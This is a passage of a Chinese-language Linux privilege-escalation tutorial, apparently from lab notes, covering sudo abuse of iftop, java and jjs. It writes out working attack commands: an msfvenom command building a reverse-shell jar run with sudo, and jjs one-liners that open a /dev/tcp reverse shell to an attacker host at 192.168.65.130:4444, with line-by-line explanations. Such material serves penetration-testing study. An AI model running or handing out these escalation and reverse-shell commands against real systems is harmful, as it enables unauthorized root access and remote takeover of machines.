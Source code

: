 ## 情景三十六 - iftop
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685599785299-0a620ab0-a090-4368-be68-9dfc8a275f34.png#averageHue=%232b354a&clientId=ucada80b3-aeb4-4&from=paste&height=65&id=ua30653a7&originHeight=81&originWidth=510&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=46224&status=done&style=none&taskId=uf08a3bd6-6809-48c1-bb88-d381d02065b&title=&width=408)
```bash
sudo iftop

!/bin/bash
# ! 说明指定操作系统自身的命令，而不是ftp命令
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685608615064-cbaa348a-b623-4f4f-ac87-6bb8d44fd0ba.png#averageHue=%2320242e&clientId=ucada80b3-aeb4-4&from=paste&height=197&id=uf6b698ff&originHeight=246&originWidth=1016&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=70670&status=done&style=none&taskId=u37b1a9b8-f746-40c3-862e-fe3741be08f&title=&width=812.8)
提权成功！！！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685608637957-b8206bb3-4ea1-4b9c-838e-a8c60e2598c2.png#averageHue=%235e5f65&clientId=ucada80b3-aeb4-4&from=paste&height=228&id=u58e6a8aa&originHeight=285&originWidth=469&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=54975&status=done&style=none&taskId=u7ceca483-d2a0-4b23-b3d8-3266cce839e&title=&width=375.2)
## 情景三十七 - java
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685630894520-39e8dd18-0712-48e9-bafe-4ee19169f7a8.png#averageHue=%23282a36&clientId=u5826a877-a3c8-4&from=paste&height=46&id=u87426608&originHeight=58&originWidth=430&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=24099&status=done&style=none&taskId=u3ce5161e-61ec-4903-9998-99d076995fa&title=&width=344)
**msfvenom **生成反弹**shell** jar 包
```bash
msfvenom -p java/shell_reverse_tcp LHOST=192.168.65.130 LPORT=4444 -f jar -o exploit.jar
```
```bash
sudo java -jar exploit.jar
```
提权成功！！！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685638534549-9f104033-6b7b-4bdf-9496-d5f2bfccdee1.png#averageHue=%23242737&clientId=uae37237f-8e18-4&from=paste&height=351&id=u51710aa2&originHeight=439&originWidth=1278&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=450502&status=done&style=none&taskId=uf2c2ca97-b39d-4814-93d2-0de698ddc1d&title=&width=1022.4)
## 情景三十八 - jjs
JavaScript的jjs（Java JavaScript Shell）工具
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1686118251334-1b7e6396-e46b-4f48-bd99-d824978f15a5.png#averageHue=%232b2e3b&clientId=u130ca417-5f81-4&from=paste&height=45&id=u49996f50&originHeight=56&originWidth=522&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=31894&status=done&style=none&taskId=u2a103400-2431-4168-93fe-98efa341e65&title=&width=417.6)
```bash
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -c
\$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)').waitFor()" | sudo jjs

# /bin/sh -c \$@  - $@ bash 脚本中接收用户输入所有位置参数的值，意思是接受用户输入的字符串并执行
# $(tty)，它会被解析为当前终端的设备文件路径
#  <$(tty) 输入重定向到终端，>$(tty) 输出重定向到终端，2>$(tty) 错误信息重定向到终端
# sh _  _ 占位符,它使用Shell解释器执行未指定的命令
```
shell 卡死了
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1686120164145-9d57eeea-c038-4139-92a3-75f8620ad43c.png#averageHue=%23202232&clientId=u2c2d2fa2-97a5-4&from=paste&height=159&id=ua390b748&originHeight=199&originWidth=1837&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=259647&status=done&style=none&taskId=u560d8b55-518e-4ac3-ac0d-a91bf0a485d&title=&width=1469.6)
[https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
```java
r = Runtime.getRuntime()
    
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.65.130/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    
p.waitFor()
```
```bash
echo "Java.type('java.lang.Runtime').getRuntime().exec(['/bin/bash','-
c','exec 5<>/dev/tcp/192.168.65.130/4444;cat <&5 | while read line; do
\$line 2>&5 >&5; done']).waitFor()" | sudo jjs
```
> `**"Java.type('java.lang.Runtime').getRuntime().exec([...]).waitFor()" **`：是一段**JavaScript **代码，通过jjs执行。它使用Java的Runtime类来执行一些操作。
> `**Java.type('java.lang.Runtime')**`: 是JavaScript代码的一部分，用于获取Java中Runtime类的引用。 
> `**.exec([...])**` ：通过Runtime对象的exec方法，执行一个命令或进程。
> `**exec 5<>/dev/tcp/10.10.10.10/9595;cat <&5 | while read line; do \$line 2>&5>&5; done**`：这是要执行的Bash命令。它的功能是将计算机与IP地址为10.10.10.10、端口为9595的主机建立一个双向的网络连接。然后，它使用 cat 命令将来自该连接的数据传递给一个 while 循环，循环中执行每一行数据作为命令，并将输出和错误重定向回连接。
